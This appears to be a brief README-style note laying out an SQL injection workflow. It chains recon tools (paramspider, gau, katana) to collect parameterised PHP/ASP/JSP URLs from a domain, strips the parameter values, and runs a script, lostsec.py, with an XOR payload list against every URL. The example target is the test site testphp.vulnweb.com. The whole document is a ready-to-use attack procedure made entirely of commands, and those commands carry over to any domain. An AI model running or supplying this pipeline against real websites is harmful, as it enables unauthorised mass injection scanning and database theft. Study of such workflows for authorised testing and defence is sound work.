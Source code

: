 BEST SQLI METHODLOGY BY ME:

for single url:
python3 lostsec.py -u "http://testphp.vulnweb.com/artists.php?artist="  -p payloads/xor.txt -t 5

for multiple urls:
paramspider -d testphp.vulnweb.com -o urls.txt
cat output/urls.txt | sed 's/FUZZ//g' >final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | gau --mc 200 | urldedupe >urls.txt
cat urls.txt | grep -E "\.php|\.asp|\.aspx|\.cfm|\.jsp" | grep '=' | sort > output.txt
cat output.txt | sed 's/=.*/=/' >final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5

echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe >output.txt
katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt
cat output.txt | sed 's/=.*/=/' >final.txt
python3 lostsec.py -l final.txt -p payloads/xor.txt -t 5
